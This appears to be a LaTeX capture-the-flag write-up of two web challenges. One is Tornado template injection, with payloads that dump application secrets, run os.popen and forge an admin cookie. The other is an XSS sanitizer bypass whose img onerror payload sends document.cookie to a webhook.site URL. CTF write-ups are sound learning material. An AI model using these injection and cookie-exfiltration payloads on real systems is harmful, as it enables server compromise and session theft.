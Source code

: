 \documentclass{article}
\begin{document}
\noindent \texttt{http://10.0.118.48:30379/?icecream=\{\{""; custom\_code\_here\}\}}.
So we try to dump the \texttt{globals()} but that just reveals that the app is most probably a tornado client. Next I try to dump the dict of \texttt{\_\_main\_\_}. Doing that using, \texttt{http://10.0.118.48:30379/?icecream=\{\{\_\_import\_\_('sys').modules['\_\_main\_\_'].\_\_dict\_\_}\}\}, we get our flag. Also I noticed that there is a secret, "MangoDB". Looking at the cookies, I realised that this was not the intended way to solve it. I think, what we had to do was, change the cookie to set admin to true (base64 encoded) and sign the cookies using the secret. (As required by tornado client). The only thing remaining was to find the secret in some other way, rather than seeing the dict of \_\_main\_\_. Looking online, I found that the secret is stored in tornado application itself, and from globals(), I already got the application. So I just had to look for \texttt{http://10.0.118.48:30379/?icecream=\{\{application.settings\}\}}. Then we simply forge the cookie, with admin set to true, and we get the flag.  

\begin{quote}
Note: In this problem itself, going to \\ \verb|http://10.0.118.48:30379/?icecream={{__import__('os').popen('cd /tmp && cat flag3').read()}}|, gives us the cookie for the next challenge, and decoding it we get the flag for the next problem, the-confused-deputy
\end{quote}

\subsubsection*{the-confused-deputy}
{Flag} : \texttt{dL@stCTF431\{cssxss\}}\\ 
Viewing the source code, we see that there is a hidden input field, which is of password type, separate from the color input. Also, whatever input comes to the color text box, is first sanitized by the \texttt{sanitize()} function, however that just removes the first occurance of \texttt{<} and \texttt{>}. So we can bypass that by specifying, \texttt{<>payload}. Trying \texttt{<>\#green;\}</style> <script>alert(1);</script> //}, did not work, however,\\ \texttt{<>\#green;\}</style> <img src="lol" onerror = "alert(1)">} worked and I achieved javascript code execution. Next we go to the '/admin' page, put the link to visit as \texttt{http://10.0.118.48:7777/view}, and supply our crafted payload using \href{https://webhook.site}{webhook.site}, \\ \texttt{<>green;\}</style> <img src='lol' onerror="new Image().src='https:\textbackslash /\textbackslash /webhook.site/94b44b45-f1e3-4ec1\\-9d81-2d39c7de1a38?c='+ btoa(document.cookie)">}. The admin visits the page, and fills in this url, which sends the cookie to our webhook, we decode it from base64, to get the password, as dL@stCTF431\{cssxss\}.
\end{document}
